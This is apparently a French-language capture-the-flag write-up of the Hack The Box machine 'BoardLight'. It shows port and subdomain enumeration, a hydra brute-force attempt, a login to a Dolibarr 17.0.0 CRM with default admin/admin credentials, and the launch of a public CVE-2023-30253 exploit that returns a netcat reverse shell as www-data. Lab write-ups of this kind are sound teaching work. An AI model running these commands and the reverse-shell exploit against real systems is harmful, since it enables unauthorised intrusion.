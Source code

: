 Tout d'abord on commence par un scan.
```bash
nmap -sV -v 10.129.52.52
```

On voit qu'il y a deux ports d'ouverts:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

La version d'Apache ne semble pas avoir de vulnérabilités connues.
Puisqu'il y a un serveur Apache, on scanne également les répertoires:
```bash
dirb http://10.129.52.52/
```
La page `/server-status` semble intéressant, mais nous n'y avons pas accès.
En accédant à http://10.129.52.52/, on se rend compte qu'il s'agit d'un site php.
Plusieurs liens (comme le login) ne semblent pas fonctionner.

Aucune requête POST n'apparaît dans sur le réseau lors de l'envoi d'un formulaire.
En regardant plus loin, voici un example de form:
```html
<form action="">
....
</form>
```
On constate que le champ `action` est vide.

Si on tente d'accéder à une page qui n'existe pas, par exemple `/login.php`, on obtient `File not found.`
On tente donc de faire du directory traversal pour afficher `/etc/passwd` mais sans succès, l'url est corrigée et on obtient `The requested URL was not found on this server.`.

Aucun cookie n'est visible.
La version de jQuery, `3.4.1` ne semble pas avoir de faille connues.

En cherchant .php dans le code source de la page un fichier `portfolio.php` qui est commenté.
Malheureusement accéder au fichier donne un `File not found.`

On continue l'énumération avec nikto mais rien de bien intéressant.
```bash
nikto -h http://10.129.52.52/

+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ 8074 requests: 0 error(s) and 4 item(s) reported on remote host
```

En désespoir de cause, on tente l'énumération des sous-domaines avec gobuster.
D'abord, il faut télécharger les listes de sous-domaines:
```bash
wget -c https://github.com/danielmiessler/SecLists/archive/master.zip -O SecList.zip \
  && unzip SecList.zip \
  && rm -f SecList.zip
```

Puis, on lance l'énumération avec ffuf:
```bash
ffuf -w ./SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -mc 200 -fs 15949 -o ffuf_output.json -of json
```
On obtient le résultat suivant:

```json
{
  "commandline": "ffuf -w ./SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb -H Host: FUZZ.board.htb -mc 200 -fs 15949 -o ffuf_output.txt -of json",
  "time": "2024-07-26T17:05:30-05:00",
  "results": [
    {
      "input": {
        "FFUFHASH": "6790a48",
        "FUZZ": "crm"
      },
      "position": 72,
      "status": 200,
      "length": 6360,
      "words": 397,
      "lines": 150,
      "content-type": "text/html; charset=UTF-8",
      "redirectlocation": "",
      "scraper": {},
      "duration": 93789337,
      "resultfile": "",
      "url": "http://board.htb",
      "host": "crm.board.htb"
    }
  ],
  ....
}
```

On a donc trouvé l'hôte `crm.board.htb`.
Lorsqu'on accède à la page, on voit qu'il s'agit d'une page de login pour le CRM `Dolibarr 17.0.0`
En regardant sur `exploit-db.com` on trouve que la version `17.0.1` est vulnérable à une attaque XSS. Peut-être utile pour plus tard.

Avec ces informations en tête, on va tenter une attaque sur le login avec hydra.
Pour procéder, on va avoir besoin d'un example de requête de login. Nous allons donc l'intercepter avec burp.
```bash
token=f2d2a913edc0137d1066cb9907b3f382&actionlogin=login&loginfunction=loginfunction&backtopage=&tz=-6&tz_string=America%2FChicago&dst_observed=1&dst_first=2024-03-10T01%3A59%3A00Z&dst_second=2024-11-3T01%3A59%3A00Z&screenwidth=2048&screenheight=861&dol_hide_topmenu=&dol_hide_leftmenu=&dol_optimize_smallscreen=&dol_no_mouse_hover=&dol_use_jmobile=&username=admin&password=test
```
On reçoit comme réponse `Bad value for login or password`.

Une fois ces informations en main, on lance hydra:
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -t 16 -o hydra_results.txt http-post-form://crm.board.htb/index.php?mainmenu=home:"token=f2d2a913edc0137d1066cb9907b3f382&actionlogin=login&loginfunction=loginfunction&backtopage=&tz=-6&tz_string=America%2FChicago&dst_observed=1&dst_first=2024-03-10T01%3A59%3A00Z&dst_second=2024-11-03T01%3A59%3A00Z&screenwidth=2048&screenheight=861&dol_hide_topmenu=&dol_hide_leftmenu=&dol_optimize_smallscreen=&dol_no_mouse_hover=&dol_use_jmobile=&username=^USER^&password=^PASS^:F=Bad"
```
Mais on se rend vite compte qu'un cookie unique est généré comme protection contre le brute-force pour chaque session car on obtient la réponse: `Security token has expired, so action has been canceled. Please try again.`

On va aussi scanner les répertoires du nouveau sous-domaine avec dirb:
```bash
dirb http://crm.board.htb/
```

On va trouver quelques fichiers intéressants, notamment:

http://crm.board.htb/conf
```html
Forbidden

You don't have permission to access this resource.
```

http://crm.board.htb/api/index.php
```bash
Module Api must be enabled.

To activate modules, go on setup Area (Home->Setup->Modules).
```

http://crm.board.htb/install/phpinfo.php
```bash
The application tried to self-upgrade, but the install/upgrade pages have been disabled for security (by the existence of a lock file install.lock in the dolibarr documents directory).
If an upgrade is in progress, please wait. If not, click on the following link. If you always see this same page, you must remove/rename the file install.lock in the documents directory.
Click here to go to your application
```

Et la page dans le répertoire `public` nous redirige vers une page d'erreur 404 et les autres pages demandent un login.

En fouillant un peu sur le web, on trouve le CVE suivant pour obtenir un reverse shell, mais il nécessite d'avoir les credentials:
```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253
```
À court d'idée, on tente de se logger avec des credentials par défaut qui sont populaire. On fini par trouver `admin`  `admin` comme login.

Maintenant qu'on a les credentials, ont peut exécuter le CVE pour obtenir un reverse shell.
Pour se faire, on démarre d'abord netcat:
```bash
nc -lvnp 9001
```

Puis, on lance le script:
```bash
python3 exploit.py http://crm.board.htb/ admin admin 10.10.14.252 9001
```

Une connexion est établie avec netcat:
```bash
listening on [any] 9001 ...
connect to [10.10.14.252] from (UNKNOWN) [10.129.52.52] 43820
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

On fait un peu de reconnaissance:
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls
ls
index.php
styles.css.php
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cd ..
cd ..
www-data@boardlight:~/html/crm.board.htb/htdocs/public$ cd /home
cd /home
www-data@boardlight:/home$ ls
ls
larissa
www-data@boardlight:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root    root    4096 May 17 01:04 .
drwxr-xr-x 19 root    root    4096 May 17 01:04 ..
drwxr-x--- 15 larissa larissa 4096 May 17 01:04 larissa
```

